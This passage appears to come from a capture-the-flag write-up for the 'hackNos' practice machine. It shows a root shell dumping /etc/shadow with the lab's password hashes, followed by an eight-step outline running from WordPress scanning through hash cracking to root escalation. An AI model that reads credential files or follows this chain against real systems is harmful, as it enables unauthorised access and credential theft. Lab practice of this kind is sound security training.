$$$$$$$  |  ______    ______   _$$ |_          _$$ |$$ |_   #
$$ |__$$ | /      \  /      \ / $$   |        / $$  $$   |  #
$$    $$< /$$$$$$  |/$$$$$$  |$$$$$$/         $$$$$$$$$$/   #
$$$$$$$  |$$ |  $$ |$$ |  $$ |  $$ | __       / $$  $$   |  #
$$ |  $$ |$$ \__$$ |$$ \__$$ |  $$ |/  |      $$$$$$$$$$/   #
$$ |  $$ |$$    $$/ $$    $$/   $$  $$/         $$ |$$ |    #
$$/   $$/  $$$$$$/   $$$$$$/     $$$$/          $$/ $$/     #
#############################################################

#############################################################
MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b

Blog : www.hackNos.com

Author : Rahul Gehlaut

linkedin : https://www.linkedin.com/in/rahulgehlaut/
#############################################################
root@hacknos:/root# cat /etc/shadow
root:$6$gImSz.rd$x73UwvUhhMyUH9OTLSvtQ6fw5dVIUlY6VZMzTR9g8whWpF4qOlkOAOGVSpHm.00BLIPOfoXYeYdbSKj/O2r5G0:18217:0:99999:7:::
daemon:*:18113:0:99999:7:::
bin:*:18113:0:99999:7:::
sys:*:18113:0:99999:7:::
sync:*:18113:0:99999:7:::
games:*:18113:0:99999:7:::
man:*:18113:0:99999:7:::
lp:*:18113:0:99999:7:::
mail:*:18113:0:99999:7:::
news:*:18113:0:99999:7:::
uucp:*:18113:0:99999:7:::
proxy:*:18113:0:99999:7:::
www-data:*:18113:0:99999:7:::
backup:*:18113:0:99999:7:::
list:*:18113:0:99999:7:::
irc:*:18113:0:99999:7:::
gnats:*:18113:0:99999:7:::
nobody:*:18113:0:99999:7:::
systemd-network:*:18113:0:99999:7:::
systemd-resolve:*:18113:0:99999:7:::
syslog:*:18113:0:99999:7:::
messagebus:*:18113:0:99999:7:::
_apt:*:18113:0:99999:7:::
lxd:*:18113:0:99999:7:::
uuidd:*:18113:0:99999:7:::
dnsmasq:*:18113:0:99999:7:::
landscape:*:18113:0:99999:7:::
pollinate:*:18113:0:99999:7:::
sshd:*:18217:0:99999:7:::
rohit:$6$W7t9ZEBs$bNyB4Rwe3eoZ7Z9PbUijcVp24ArP.r8nNXaFMtM9lPO8D9tK21ucLpfmHiueSNibcc1SOtSNmuJaKJcqQHjIM0:18217:0:99999:7:::
mysql:!:18217:0:99999:7:::
/flak:$6$g/ZMTbuU$BQwykrV5ZIipmsDvumLcpinlzOlubQx9cs58kSHNBZKzet18zU4YvJAh.dH3fYkn6ANACM.rn2vWVrjc1XRoj1:18217:0:99999:7:::
flag:$6$hZWpHZp/$gjJiis9tcwqqSE/Ad9oAOPcFyBzP7hvBf98fvkXlYQEktdWVEpQcj3rGOsVr8dwuz.Lb1z1f.uDDnA/q1L6dH/:18217:0:99999:7:::

```



## How to hack

1. Find wordpress
2. Scan for vulnerability
3. Get /etc/passwd
4. Crack hash
5. Become a user
6. Find another hash, crack the hash.
7. Become another user
8. Find what it can do, become root.

</body>
</html>
